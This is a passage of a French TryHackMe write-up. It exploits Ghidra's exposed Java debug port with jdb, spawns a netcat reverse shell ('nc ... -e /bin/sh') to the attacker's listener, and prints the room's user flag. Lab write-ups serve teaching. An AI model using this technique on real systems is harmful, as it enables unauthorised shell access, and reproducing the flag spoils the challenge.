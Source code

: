 ```bash
udp        0      0 0.0.0.0:68              0.0.0.0:*                          
udp        0      0 0.0.0.0:5353            0.0.0.0:*                          
udp        0      0 0.0.0.0:631             0.0.0.0:*                          
udp6       0      0 :::59420                :::*                               
udp6       0      0 :::5353                 :::*       
```

On voit plusieurs ports sur le localhost qui écoute, qui sont : 3306, 18001 et 631.   

D'après une [documentation](https://github.com/NationalSecurityAgency/ghidra/issues/6) on peut exploiter jdb pour obtpenir une élévation de privilège.  

```bash
$ jdb -attach 127.0.0.1:18001
Set uncaught java.lang.Throwable
Set deferred uncaught java.lang.Throwable
Initializing jdb ...
> classpath
base directory: /home/veronica
classpath: [/home/veronica/ghidra_9.0/support/../Ghidra/Framework/Utility/lib/Utility.jar]
> classes
...
> stop in org.apache.logging.log4j.core.util.WatchManager$WatchRunnable.run()
Set breakpoint org.apache.logging.log4j.core.util.WatchManager$WatchRunnable.run()
> 
Breakpoint hit: "thread=Log4j2-TF-4-Scheduled-1", org.apache.logging.log4j.core.util.WatchManager$WatchRunnable.run(), line=96 bci=0
---------
tim@kali:~/Bureau/tryhackme/write-up$ nc -lnvp 1773
listening on [any] 1773 ...
---------
Log4j2-TF-4-Scheduled-1[1] print new java.lang.Runtime().exec("nc 10.9.228.66 1337 -e /bin/sh")
```

On exploite la faille  pour obtenir un shell.   

**Compromise the machine and locate user.txt**

```bash
tim@kali:~/Bureau/tryhackme/write-up$ nc -lnvp 1337
listening on [any] 1337 ...
connect to [10.9.228.66] from (UNKNOWN) [10.10.61.240] 38280
id
uid=1000(veronica) gid=1000(veronica) groups=1000(veronica),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),113(lpadmin),128(sambashare)
/home/veronica
cat user.txt
THM{EB0C770CCEE1FD73204F954493B1B6C5E7155B177812AAB47EFB67D34B37EBD3}
```

On a les droits de veronica.  
On lit le fichier user.txt et on a notre flag.  

La réponse est : THM{EB0C770CCEE1FD73204F954493B1B6C5E7155B177812AAB47EFB67D34B37EBD3}    
